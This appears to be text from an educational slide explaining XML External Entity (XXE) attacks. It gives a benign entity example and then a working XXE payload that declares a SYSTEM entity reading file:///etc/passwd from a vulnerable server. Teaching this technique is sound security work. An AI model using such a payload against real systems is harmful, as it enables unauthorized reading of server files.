

XML External Entity - XXE Payload

As we can see we are defining a ENTITY called name and assigning it a value feast. Later we are using that ENTITY in our code.

Here again, we are defining an ENTITY with the name read but the difference is that we are setting it value to `SYSTEM` and path of the file.
If we use this payload then a website vulnerable to XXE(normally) would display the content of the file /etc/passwd.

<!DOCTYPE replace [<!ENTITY name "feast"> ]>
 <userInfo>
  <firstName>falcon</firstName>
  <lastName>&name;</lastName>
 </userInfo>
<?xml version="1.0"?>
<!DOCTYPE root [<!ENTITY read SYSTEM 'file:///etc/passwd'>]>
<root>&read;</root>